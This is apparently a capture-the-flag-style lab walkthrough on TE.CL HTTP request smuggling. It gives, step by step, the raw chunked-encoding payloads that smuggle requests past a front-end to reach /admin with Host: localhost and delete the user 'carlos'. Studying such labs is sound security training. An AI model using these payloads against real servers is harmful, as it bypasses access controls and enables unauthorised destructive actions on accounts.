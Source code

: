 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

---

### step 1

```
Transfer-Encoding: chunked

5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

you will get response 200 ok

### step2

```
Transfer-Encoding: chunked

67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab7/lab7_blog_post_id_5.png)

### step3

```
Transfer-Encoding: chunked

5f
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab7/lab7_try_to_access_admin_interface.png)

### step5

```
Content-Length: 4
Transfer-Encoding: chunked

70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](./images/images_lab7/lab7_admin-panel.png)

### step6

```
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](./images/images_lab7/lab7_delete_carlos_account.png)

![screenshot](./images/images_lab7/lab7_lab_solved.png)

